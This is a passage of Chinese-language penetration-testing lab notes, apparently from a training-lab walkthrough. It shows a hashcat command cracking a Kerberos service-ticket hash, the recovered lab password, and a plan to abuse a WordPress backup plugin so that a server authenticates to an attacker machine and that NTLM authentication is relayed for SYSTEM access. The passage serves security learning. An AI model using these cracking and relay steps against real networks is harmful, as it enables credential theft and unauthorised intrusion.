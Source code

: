 #### 2. 使用 Hashcat 破解密碼
```
┌──(chw㉿CHW)-[~/beyond]
└─$ sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$b0750f4754ff26fe77d2288ae3cca539$0922083b88587a2e765298cc7d499b368f7c39c7f6941a4b419d8bb1405e7097891c1af0a885ee76ccd1f32e988d6c4653e5cf4ab9602004d84a6e1702d2fbd5a3379bd376de696b0e8993aeef5b1e78fb24f5d3c
...
3d3e9d5c0770cc6754c338887f11b5a85563de36196b00d5cddecf494cfc43fcbef3b73ade4c9b09c8ef405b801d205bf0b21a3bca7ad3f59b0ac7f6184ecc1d6f066016bb37552ff6dd098f934b2405b99501f2287128bff4071409cec4e9545d9fad76e6b18900b308eaac8b575f60bb:DANIelaRO123
...
```
> `daniela`:`DANIelaRO123`

#### 3. 登入 INTERNALSRV1 的 WordPress
登入 http://127.0.0.1/wordpress/wp-admin\
![image](https://hackmd.io/_uploads/ByM26jw2ye.png)

### Abuse a WordPress Plugin for a Relay Attack

#### 1. 瀏覽 WordPress 設定
- daniela 是唯一的 WordPress 使用者
![image](https://hackmd.io/_uploads/rkqmAoD2yl.png)
- 唯一啟用的 Plugin 是 `Backup Migration`
![image](https://hackmd.io/_uploads/Bku40svnyl.png)
- 外掛允許自定義「備份目標目錄」
![image](https://hackmd.io/_uploads/rk6cRiD3kg.png)
> 可以當作目標設為攻擊機器來誘導目標伺服器進行身份驗證
#### 2. NTLM Relay 攻擊計畫
- `INTERNALSRV1` 的本機管理員 (Administrator) 可能與 `MAILSRV1` 的管理員使用相同密碼
- MAILSRV1 禁用 SMB signing，可進行 NTLM Relay 攻擊
- 利用 WordPress  Plugin 設定備份目標為我們的 Kali 機器 (//192.168.45.214/test)
    - 這將導致 `INTERNALSRV1` 嘗試對 Kali 進行身份驗證
    - 可以攔截 NTLM 驗證，並將其轉發到 `MAILSRV1` 以獲得 SYSTEM 權限

#### 3. 設置 NTLM Relay 攻擊
